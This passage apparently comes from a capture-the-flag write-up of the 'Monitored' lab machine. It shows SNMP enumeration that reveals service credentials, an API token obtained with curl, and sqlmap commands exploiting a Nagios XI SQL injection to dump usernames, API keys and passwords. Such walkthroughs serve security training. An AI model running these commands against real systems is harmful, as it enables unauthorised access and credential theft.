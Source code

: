 also tried via snmp-check

```
snmp-check 10.10.11.248 -c public
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907131335.png)

later I watched ippsec and faster way is snmpbulkwalk

```
snmpbulkwalk -v2c -c public 10.10.11.248 | tee snmp.out
```

svc XjH7VCehowpR1xZB

Tried to login but no success, searching google I found that we can authenticate via api and found this post 
https://support.nagios.com/forum/viewtopic.php?t=58783

```
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907132908.png)

and now we can authenticate with token in browser

```
https://nagios.monitored.htb/nagiosxi/?token=9c58f678d0195e354160f2794fff8e42fe85ab47
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907133049.png)

and we are inside nagios app

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907133112.png)

version 5.11.0 is vulnerable to sql injection
https://pentest-tools.com/vulnerabilities-exploits/nagios-xi-v5110-sql-injection_23763
Poc: https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c

like in Poc, open burp, copy and save POST request to banner_message-ajaxhelper.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907135350.png)

```
sqlmap -r request --batch -force-ssl --dbms mysql
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907141231.png)

Great if found error based sql injection now add db and table form poc 

```
sqlmap -r request --batch -force-ssl --dbms mysql -D nagiosxi -T xi_users -C user_id,name,api_key,password --dump
```

